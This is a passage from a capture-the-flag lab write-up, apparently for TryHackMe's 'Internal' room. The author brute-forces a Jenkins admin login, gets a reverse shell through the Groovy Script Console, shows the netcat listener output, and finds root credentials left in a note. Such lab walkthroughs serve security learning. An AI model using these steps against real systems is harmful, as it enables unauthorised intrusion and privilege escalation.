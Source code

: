 Now, to find the admin password, I used Caido and not Burp Suite as Caido is faster than Burp Suite is brute forcing (even the free version, is very fast).

<img src=https://github.com/user-attachments/assets/e35bae99-cfe3-48b8-b2cb-f64f771639a0>

With the username and password, I logged in to the service

<img src=https://github.com/user-attachments/assets/966c747f-9190-4ce0-9cba-9f2379aa3d81>

Next, I manually checked the options, and there is an option "Script Console". I find this similar as the PHP reverse shell which we used in the WordPress. But here we have to user Groovy Scripts.
Reverse Shell scripts for this can be easily found on the net.

<img src=https://github.com/user-attachments/assets/d14e4041-e4d6-44d4-8c9f-52f0e3a3cb87>

And here we get the shell:

```
┌──(kali㉿kali)-[~/Desktop/THM/Internal]
└─$ nc -nlvp 4444                                          
listening on [any] 4444 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.200.223] 41214
whoami
jenkins
```

Manually checking a few directories like var, opt. In the opt directory, we find a note:

```
jenkins@jenkins:/opt$ ls
note.txt
jenkins@jenkins:/opt$ cat note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

And these credentials can again be used with SSH to login as the root user and read the flag.
